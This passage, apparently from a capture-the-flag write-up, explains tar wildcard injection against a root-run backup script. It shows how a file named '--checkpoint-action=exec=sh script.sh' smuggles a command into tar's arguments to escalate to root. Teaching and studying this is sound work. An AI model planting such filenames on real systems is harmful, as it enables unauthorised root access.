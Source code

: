 
{% endhighlight %}

A detail that is interesting, is that both scripts are run as root, but one of them is readable:

{% highlight bash %}

#!/bin/sh

rm -f /home/rene/backup/backup.tar.gz
cd /home/rene/backup
tar cfz /home/rene/backup/backup.tar.gz *
chown rene:rene /home/rene/backup/backup.tar.gz
rm -f /home/rene/backup/*.BAK

{% endhighlight %}

The interesting part of the script is the line:

{% highlight bash %}
tar cfz /home/rene/backup/backup.tar.gz *
{% endhighlight %}

Indeed, there is a _vulnerability_ concerning this `*`. If a file or a directory is name like a flag, the command that use the `*` will treat the filename as a flag.

As an example:

{% highlight bash %}
$ touch a b c -la
$ ls
a b c -la
$ ls *
-rw-r--r--  1 user  group  0 Nov 17 18:23 a
-rw-r--r--  1 user  group  0 Nov 17 18:23 b
-rw-r--r--  1 user  group  0 Nov 17 18:23 c
{% endhighlight %}

This issue is discussed in [this paper](https://www.exploit-db.com/papers/33930/).

Now the command that need to be exploited is `tar`, its man page (and the previous paper) gives us the next step:

{% highlight bash %}
--checkpoint-action=exec=<command>
{% endhighlight %}

We now need to find the command we want to execute.

To make this step easier, we decided to use a script file on the server to that will be run by root, we thus need to create a file named:

{% highlight bash %}
--checkpoint-action=exec=sh shell.sh
{% endhighlight %}

Of course, the space in the filename has to be escaped, otherwise the execution will only run `sh`:

{% highlight bash %}
touch home/rene/backup/--checkpoint-action=exec=sh\ script.sh
{% endhighlight %}
